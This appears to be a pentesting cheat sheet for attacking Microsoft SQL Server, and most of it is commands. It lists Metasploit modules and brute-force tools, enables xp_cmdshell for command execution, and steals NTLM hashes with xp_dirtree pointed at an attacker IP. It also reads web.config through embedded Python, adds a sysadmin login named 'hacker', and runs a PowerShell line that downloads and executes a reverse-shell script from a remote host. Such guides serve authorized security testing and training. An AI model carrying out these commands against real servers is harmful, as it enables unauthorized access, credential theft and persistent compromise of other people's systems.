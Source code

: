 1433 - Pentesting MSSQL - Microsoft SQL Server
Basic Information

 Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).
From wikipedia.

Default port: 1433

1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM

Search for exploits/scripts/auxiliary modules that can be helpful to find vulnerabilities in this kind of service:

searchsploit "microsoft sql server"
nmap --script-help "*ms* and *sql*"
msf> search mssql

Information
Default MS-SQL System Tables

    master Database : Records all the system-level information for an instance of SQL Server.

    msdb Database : Is used by SQL Server Agent for scheduling alerts and jobs.

    model Database : Is used as the template for all databases created on the instance of SQL Server. Modifications made to the model database, such as database size, collation, recovery model, and other database options, are applied to any databases created afterwards.

    Resource Database : Is a read-only database that contains system objects that are included with SQL Server. System objects are physically persisted in the Resource database, but they logically appear in the sys schema of every database.

    tempdb Database : Is a work-space for holding temporary objects or intermediate result sets.

Info Gathering

If you don't know nothing about the service:

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
msf> use auxiliary/scanner/mssql/mssql_ping

If you don't have credentials you can try to guess them. You can use nmap or metasploit. Be careful, you can block accounts if you fail login several times using an existing username.
Metasploit

#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used
​
#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder
​
#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
​
#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
​
#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin
​
#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
​
#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass

​Brute force​
Tricks
Execute commands

#Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
#Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'
​
#this turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'

NTLM Service Hash gathering

​You can extract the NTLM hash of the user making the service authenticate against you.
You should start a SMB server to capture the hash used in the authentication (impacket-smbserver or responder for example).

xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer

Abusing MSSQL trusted Links

​Read this post to find more information about how to abuse this feature
Read files executing scripts (Python and R)

MSSQL could allow you to execute scripts in Python and/or R. These code will be executed by a different user than the one using xp_cmdshell to execute commands.

Example trying to execute a 'R' "Hellow World!" not working:

Example using configured python to perform several actions:

#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO

From db_owner to sysadmin

​If you have the credentials of a db_owner user​, you can become sysadmin and execute commands​

msf> use auxiliary/admin/mssql/mssql_escalate_dbowner

Impersonation of other users

​IMPERSONATE privilege can lead to privilege escalation in SQL Server.​

msf> auxiliary/admin/mssql/mssql_escalate_execute_as

Using MSSQL for Persistence

​https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/​
Having credentials
Mssqlclient.py

You can login into the service using impacket mssqlclient.py

mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
​
#Once logged in you can run queries:
SQL> select @@ version;
​
#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
​
#Try to enable code execution
SQL> enable_xp_cmdshell
​
#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

sqsh

sqsh -S <IP> -U <Username> -P <Password> -D <Database>

Manual

SELECT name FROM master.dbo.sysdatabases #Get databases
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES; #Get table names
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
sp_addsrvrolemember 'hacker', 'sysadmin'

Post Explotation

The user running MSSQL server will have enabled the privilege token SeImpersonatePrivilege.
You probably will be able to escalate to Administrator using this token: Juicy-potato​
Shodan

    port:1433 !HTTP


Brute force

#Use the NetBIOS name of the machine as domain
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be carefull with the number of password in the list, this could block accounts
msf> use auxiliary/scanner/mssql/mssql_login #Be carefull, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
